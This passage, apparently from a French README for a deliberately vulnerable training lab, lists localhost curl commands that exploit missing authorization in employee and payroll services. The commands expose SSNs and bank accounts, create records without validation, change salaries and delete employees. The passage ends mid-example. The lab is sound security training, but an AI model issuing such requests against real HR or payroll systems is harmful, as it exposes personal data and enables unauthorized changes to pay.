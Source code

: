 \`\`\`bash
# Lister tous les employés (avec SSN et adresses!)
curl http://localhost:3002/employees

# Obtenir un employé spécifique
curl http://localhost:3002/employees/1

# Créer un employé (sans validation)
curl -X POST http://localhost:3002/employees \
  -H "Content-Type: application/json" \
  -d '{
    "firstName":"Alice",
    "lastName":"Hacker",
    "email":"alice@evil.com",
    "ssn":"999-99-9999",
    "dateOfBirth":"1995-01-01",
    "address":"123 Evil St",
    "phone":"555-HACK",
    "department":"IT",
    "position":"Pentester"
  }'

# Modifier un employé (sans autorisation)
curl -X PUT http://localhost:3002/employees/1 \
  -H "Content-Type: application/json" \
  -d '{"salary":999999}'

# Supprimer un employé
curl -X DELETE http://localhost:3002/employees/3
\`\`\`

### 💰 Payroll Service (Port 3003)

**Vulnérabilités**: Exposition des salaires, comptes bancaires, modification sans autorisation

\`\`\`bash
# Lister tous les salaires (avec comptes bancaires!)
curl http://localhost:3003/payroll

# Obtenir le salaire d'un employé
curl http://localhost:3003/payroll/1

# AJUSTER UN SALAIRE (sans autorisation!)
curl -X POST http://localhost:3003/payroll/adjust \
  -H "Content-Type: application/json" \
  -d '{
    "employeeId":1,
    "newSalary":250000,
    "reason":"Self-promotion"
  }'
